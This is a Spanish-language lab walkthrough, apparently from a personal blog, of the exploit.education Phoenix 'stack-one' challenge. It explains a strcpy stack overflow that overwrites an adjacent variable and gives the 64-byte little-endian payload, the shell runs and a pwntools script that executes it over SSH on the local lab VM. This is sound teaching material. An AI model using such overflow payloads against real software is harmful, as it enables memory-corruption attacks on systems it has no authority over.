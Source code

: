 ```yaml
---
layout: single
title: "Stack One"
permalink: /pwn/phoenix/stack-one/
parent: Phoenix
comments: true
excerpt: "Stack One"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En este nivel se introduce el concepto de **modificar variables a valores específicos dentro de la memoria**, aprovechando un desbordamiento de buffer.  


##  Consejos útiles

- `man ascii` puede ayudarte a traducir valores hexadecimales a caracteres.  
- Ten en cuenta la [endianess](https://en.wikipedia.org/wiki/Endianness){:target="_blank"} de la arquitectura, ya que afecta el orden en el que se guardan los bytes en memoria.  

---

## Análisis del código

El programa copia el argumento del usuario dentro de un buffer de 64 bytes, pero no controla el tamaño con strcpy.
Esto nos permite escribir más allá del buffer y modificar la variable changeme, que está justo después en la memoria.

El objetivo es ponerle el valor **0x496c5962**


```c
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>    // Biblioteca para funciones de manejo de errores
#include <stdio.h>  // Biblioteca estándar para entrada/salida
#include <stdlib.h> // Biblioteca para funciones generales, como exit()
#include <string.h> // Biblioteca para funciones de manipulación de cadenas
#include <unistd.h> // Biblioteca para funciones del sistema POSIX, como sleep()

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa

int main(int argc, char **argv) { 
  // Punto de entrada del programa principal. Toma el número de argumentos y sus valores.

  struct { 
    char buffer[64];          // Define un espacio de memoria para una cadena de 64 bytes.
    volatile int changeme;    // Variable marcada como "volatile", para evitar optimizaciones. Su valor debe ser cambiado por el exploit.
  } locals;                   // Crea una estructura llamada 'locals' que agrupa las dos variables.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida almacenado en la constante BANNER.

  if (argc < 2) { 
    // Verifica que el usuario haya proporcionado al menos un argumento al programa.
    errx(1, "specify an argument, to be copied into the \"buffer\"");
    // Si no se proporciona un argumento, muestra un mensaje de error y finaliza el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, argv[1]); 
  // Copia el argumento proporcionado (argv[1]) en el buffer 'buffer'.
  // Vulnerabilidad: No se verifica el tamaño del argumento, lo que puede provocar un desbordamiento de búfer.

  if (locals.changeme == 0x496c5962) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x496c5962.
    puts("Well done, you have successfully set changeme to the correct value");
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
    // Si el valor es incorrecto, imprime el valor actual de 'changeme' y el valor esperado.
  }

  exit(0); 
  // Finaliza el programa correctamente con el código de salida 0.
}

```

**Ejecución inicial**

Si ejecutamos el binario sin argumentos vemos que nos da un mensaje que nos dice: Especificar un argumento que se copiará en el «búfer».

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one 
Welcome to phoenix/stack-one, brought to you by https://exploit.education
stack-one: specify an argument, to be copied into the "buffer"
```

Con un solo carácter (A) vemos que changeme sigue en cero: nos da el valor de **0x00000000**

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one A
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x00000000, we want 0x496c5962

```

**Desbordamiento del buffer**

Probamos llenando el buffer con 64 caracteres A, y luego añadimos BBBB en hexadecimal sería **0x42424242** y ya con esto logramos sobreescribir la variable changeme
```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*64'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x42424242, we want 0x496c5962

```

**Escribiendo el valor correcto**

El valor esperado es **0x496c5962** En little endian, debe enviarse como: **\x62\x59\x6c\x49** y con esto vemos que superamos el reto.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-one $(python -c 'print "A" * 64 + "\x62\x59\x6c\x49"')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Exploit con Pwntools**

Creamos un script en Python3 para automatizarlo:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64 + b"\x62\x59\x6c\x49"
   6   │ 
   7   │ # Establece conexión SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ #  Ejecuta el programa remoto con la primera condición
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-one', payload])
  12   │ 
  13   │ # Captura y muestra la salida
  14   │ flag = process.recvall().decode()
  15   │ log.success("Output: " + flag)
  16   │ 
  17   │ # Cierra la conexión
  18   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/1_stack-one]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 554
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-one'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-one' on localhost (pid 554)
[+] Output: Welcome to phoenix/stack-one, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value

```

**Conclusión**

Este nivel muestra cómo un desbordamiento de buffer puede alterar el flujo normal de un programa, permitiendo modificar valores en memoria que originalmente no deberían cambiarse. El reto introduce la importancia de comprender la disposición de la pila y cómo un manejo inseguro de cadenas de caracteres abre la puerta a vulnerabilidades críticas.